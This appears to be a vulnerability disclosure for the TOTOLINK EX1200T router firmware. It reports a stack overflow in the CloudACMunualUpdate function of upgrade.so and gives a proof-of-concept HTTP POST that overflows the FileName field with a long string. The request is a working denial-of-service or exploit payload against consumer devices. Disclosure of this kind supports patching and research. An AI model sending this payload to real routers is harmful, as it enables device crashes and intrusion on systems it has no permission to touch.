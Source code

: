 # TOTOLINK EX1200T STACK OVERFLOW

## Stack Overflow Vulnerability Description

PRODUCT: TOTOLINK EX1200T V4.1.2cu.5215 (latest version)

There is a stack overflow in the function `CloudACMunualUpdate` of the file `upgrade.so` , we can control the `FileName` to attack.

![image-20211101221420650](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211101221420650.png)

## PoC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8
If-Modified-Since: Thu, 01 Jan 1970 00:00:03 GMT
Connection: close
Content-Length: 101

{"topicurl":"setting/CloudACMunualUpdate",
"Flags":"1",
"FileName":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"}
```

![image-20211101221436141](https://cdn.jsdelivr.net/gh/p1Kk/blogImg/Pictureimage-20211101221436141.png)

